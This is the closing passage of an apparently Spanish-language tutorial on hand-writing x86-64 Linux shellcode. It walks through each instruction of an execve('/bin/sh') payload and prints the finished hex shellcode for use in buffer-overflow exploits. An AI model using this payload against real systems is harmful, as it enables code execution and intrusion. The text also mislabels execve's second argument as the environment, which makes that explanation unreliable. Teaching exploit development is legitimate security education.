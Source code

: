 - ```push rax``` Metemos ```rax``` al stack para que pueda ser accedida por el ```rsp```

- ```mov rdi, rsp``` Copiamos la direccion de /bin/sh en ```rdi```, la cual sera el primer argumento de execve, en ese momento el ```rsp``` apunta a la direccion de /bin/sh

- ```push rdx``` Metemos otro byte nulo al stack

- ```push rdi``` Metemos la direccion de /bin/sh en el stack

- ```mov rsi, rsp``` Copiamos la direccion del ```rsp``` en ```rsi```, esto funcionara como segundo argumento de execve, que representa el entorno del programa que se ejecutara

- ```xor rax, rax``` Lo mismo que el primer ```xor```

- ```mov al, 0x3b``` Copiamos el valor 0x3b que representa el numero de la syscall, al registro ```al``` que funciona como un byte inferior de ```rax```, y por ultimo se ejecuta la syscall

Si volvemos a hacer todo el tramite de compilar y enlazar, ya tendremos nuestro ejetutable que nos da una shell, si vemos la shellcode en hex, todo esta perfecto:

![](/imgs/shellcode/3.png)

Y si ejecutamos, nos da una shell:

![](/imgs/shellcode/4.png)

Y listo, tenemos otra shellcode:

```
\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05
```

Y como ultimo, estos dos codigos que te explique, no es la unica forma de llamar a write o execve, ya depende del creador y del contexto donde se usa, y supongo que te ha pasado que cuando haces un BoF, una shellcode te sirve y otra no, aun que tengas todo tu exploit bien.

Eso ha sido todo, gracias por leer ❤